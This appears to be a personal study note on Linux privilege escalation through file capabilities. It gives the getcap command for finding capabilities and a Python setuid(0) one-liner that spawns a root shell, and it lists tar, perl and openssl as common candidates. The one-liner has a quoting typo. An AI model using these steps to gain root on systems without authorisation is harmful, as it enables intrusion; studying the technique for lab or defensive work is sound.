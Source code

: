 # Hunting for capabilities

To find the avaliable capabilities in the system we need to run:
```bash
getcap -r / 2>/dev/null
```
- ![[Pasted image 20250117153831.png]]
- here we have 1 capability set
- `+ep` is for permit everything

So all capabilities are enabled.


So in this case we can try to use python to escalate:
```bash
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash)'
```
- ![[Pasted image 20250117154156.png]]

We cna see that we got a root shell.


This works because we have a capability for `python2.6` that permits everything.


# Command generally with capabilities

The tools that generally have capabilities are:
- `tar`
- `perl`
- `openssl`


In general always use:
```bash
getcap -r / 2>/dev/null
```

And then search on google.

# STEP TO PERFORM

- [ ] **Search for capabilities**
- `getcap -r / 2>/dev/null`

- [ ] **Run commands we find with high capabilities in order to gain root shell**
